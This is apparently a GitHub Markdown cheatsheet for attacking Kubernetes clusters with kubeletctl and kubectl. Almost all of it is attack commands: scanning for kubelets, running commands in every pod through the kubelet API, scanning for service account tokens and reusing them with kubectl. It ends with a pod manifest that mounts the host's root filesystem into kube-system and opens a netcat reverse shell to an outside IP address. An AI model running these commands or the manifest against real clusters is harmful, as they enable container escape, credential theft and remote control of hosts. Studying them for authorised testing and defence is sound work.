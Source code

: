 # Kubernetes Pentest with kubeletctl and kubectl

References:  

- <https://github.com/cyberark/kubeletctl>
- <https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster>

## Cheatsheet

```bash
# Scan for nodes
kubeletctl scan --cidr <CIDR notation>

# List pods in a node 
kubeletctl --server <node ip> pods

# Run commands in a pod
curl -ks -X POST https://<node_ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=ls /"

# Run commands in all pods
kubeletctl run "whoami" --all-pods --server <node ip>

# Run a command on a specific pod
kubeletctl run "whoami" --pod <pod name> --namespace <namespace> --container <container> --server <node ip>

# Scan for tokens
kubeletctl scan token --server <node ip>

# Interact with kubectl and tokens
kubectl -s <server:port> --certificate-authority="<ca.crt file>" --token=$(cat token.txt)
```

Pod reverse shell  

```yaml
# https://rioasmara.com/2021/09/18/kubernetes-yaml-for-reverse-shell-and-map-root/
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", 'nc 10.10.17.141 90 -e /bin/sh']
    volumeMounts:
    - mountPath: /root/
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
